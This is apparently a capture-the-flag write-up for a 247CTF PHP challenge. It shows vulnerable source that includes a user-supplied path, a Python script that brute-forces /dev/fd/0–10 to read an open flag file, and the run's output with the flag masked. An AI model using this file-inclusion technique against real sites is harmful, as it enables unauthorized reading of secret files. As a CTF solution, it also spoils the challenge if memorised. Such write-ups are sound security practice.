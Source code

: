 ```
<?php
  $fp = fopen("/tmp/flag.txt", "r");
  if($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['include']) && strlen($_GET['include']) <= 10) {
    include($_GET['include']);
  }
  fclose($fp);
  echo highlight_file(__FILE__, true);
?>
```

php subroutine process directory:

/dev/fd

so brute force attack is available maybe

/?include=/dev/fd/1
/?include=/dev/fd/2
/?include=/dev/fd/3
..........

create exploit:

```
#!/usr/bin/python3

import sys
import requests
import re

if len(sys.argv) != 2:
  print("[!]Require URL to Attack...")
  sys.exit()

url = sys.argv[1]

parameter = "?include=/dev/fd/"

for i in range(0,11):
    req_url = url + parameter + str(i)
    res = requests.get(req_url)
    print(f"count: {str(i)}")

    if "247CTF" in res.text:
        reg = re.search(r"247CTF.+",res.text)
        print(res.text)
        print(reg.group())
        
```

```
->$ ./exploit.py https://cbc716c067bfcb4d.247ctf.com
count: 0
count: 1
count: 2
count: 3
count: 4
count: 5
count: 6
count: 7
count: 8
count: 9
count: 10
247CTF{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```




